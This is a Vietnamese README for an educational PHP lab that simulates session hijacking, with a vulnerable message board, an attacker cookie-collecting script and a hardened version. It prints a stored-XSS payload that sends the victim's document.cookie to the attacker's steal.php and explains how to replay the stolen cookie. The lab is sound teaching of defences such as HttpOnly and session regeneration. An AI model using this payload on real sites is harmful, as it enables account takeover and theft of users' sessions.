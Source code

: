 Dự Án Demo Session Hijacking
Dự án này mô phỏng tấn công Session Hijacking trên ứng dụng web PHP đơn giản, kèm theo phiên bản bảo mật để thể hiện cách phòng chống. Repository bao gồm 5 file:

index.php - Web cơ bản với đăng nhập và đăng tin nhắn.
messages.json - Lưu tin nhắn (mặc định rỗng).
steal.php - Script giả lập hacker để đánh cắp cookie.
stolen_cookies.txt - Lưu cookie bị đánh cắp (mặc định rỗng).
protectionmethod.php - Phiên bản bảo mật của index.php.
Yêu Cầu
XAMPP: Chạy server cục bộ.
Hai máy hoặc hai trình duyệt: Mô phỏng nạn nhân và hacker.
Trình duyệt: Chrome, Firefox, v.v.
Cài Đặt
Cài XAMPP:
Tải XAMPP từ apachefriends.org và cài vào C:\xampp.
Chuẩn bị file:
Tạo thư mục (ví dụ: session-demo) trong C:\xampp\htdocs\.
Copy index.php, messages.json, protectionmethod.php vào thư mục này.
Đặt steal.php và stolen_cookies.txt vào thư mục khác (ví dụ: C:\xampp\htdocs\attacker).
Khởi động server:
Mở XAMPP Control Panel, nhấn Start cho Apache.
Truy cập web:
Mở trình duyệt, vào: http://localhost/session-demo/index.php.
Sử Dụng
Đăng Nhập
Truy cập http://localhost/session-demo/index.php.
Đăng nhập bằng tài khoản trong index.php:
user1/securepass, user2/user2pass, hoặc admin/password123.
Mô Phỏng Dự Án
Các Bước Thực Hiện
Hacker (user1):
Đăng nhập bằng user1/securepass tại http://localhost/session-demo/index.php.
Đăng tin nhắn chứa script độc hại (kích hoạt steal.php):

<script>window.location="http://localhost:8080/attacker/steal.php?cookie="+document.cookie;</script>
Nạn nhân (user2):
Đăng nhập bằng user2/user2pass.
Nhấn vào tin nhắn của user1 để xem nội dung.
Script chạy, cookie của user2 được gửi tới steal.php.
Hacker kiểm tra:
Mở stolen_cookies.txt trên máy hacker để lấy cookie của user2.
Dùng cookie này trong trình duyệt (F12 > Application > Cookies) để truy cập session của user2 mà không cần mật khẩu.
Demo Trên Hai Máy
Máy nạn nhân: Chạy index.php tại http://<ip-nạn-nhân>/session-demo/index.php.
Máy hacker: Chạy steal.php tại http://<ip-hacker>/attacker/steal.php.
Phiên Bản Bảo Mật
Thay index.php bằng protectionmethod.php, truy cập lại và thử tấn công. Tấn công sẽ thất bại do cookie được bảo vệ.
Mô Tả File
index.php: Web dễ bị tấn công.
messages.json: Lưu tin nhắn.
steal.php: Script đánh cắp cookie.
stolen_cookies.txt: Lưu cookie bị đánh cắp.
protectionmethod.php: Web đã cải tiến bảo mật.
Cải Tiến Bảo Mật (protectionmethod.php)
Cookie có thuộc tính HttpOnly và Secure.
Tái tạo session ID sau khi đăng nhập.
Mật khẩu được mã hóa.
